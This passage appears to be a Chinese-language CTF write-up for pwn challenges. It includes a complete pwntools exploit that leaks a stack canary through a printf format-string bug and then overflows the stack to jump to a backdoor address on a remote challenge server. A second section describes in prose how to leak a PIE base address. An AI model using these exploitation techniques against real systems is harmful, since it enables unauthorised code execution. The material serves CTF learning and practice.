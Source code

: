 ```python
r.sendafter(b'again\n',payload)

r.interactive()
```

# canary

这题看到源码中printf就知道是canary泄露：

![image-20231012092308496](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231012092308496.png)

这里直接用printf(buf)泄露canay的值即可

exp:

```python
from pwn import *

context.terminal = ['tmux','splitw','-h']
context(arch = 'amd64', os = 'linux')
#context.log_level='debug'
elf = ELF('./canary')

r = remote('node4.buuoj.cn',26324)
#r = elf.process()

payload = '%11$p'
#gdb.attach(r)
r.sendafter(b'gift?\n',payload)
canary = int(r.recvuntil(b'S')[-17:-1],16)
info(hex(canary))   

backdoor = 0x401262
payload = cyclic(0x30 - 0x8) + p64(canary) + cyclic(8) + p64(backdoor)
#gdb.attach(r)
r.sendafter(b'magic\n',payload)

r.interactive()
```

# secret number

这题一开始的思路错了，以为就是rand构造相等的随机数，后来一想可能libc库不相同。

看到printf(buf)这里应该可以泄露secret的内容了。

但是这题还有个问题就是保护全开，包括PIE

![image-20231012092556512](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231012092556512.png)

但是题目可以多次泄露数据。这就好办了，先打印任意一条已知指令的地址，然后减去固定偏移就可以得到程序加载的基址，再一次溢出就可以直接泄露secret的地址了。
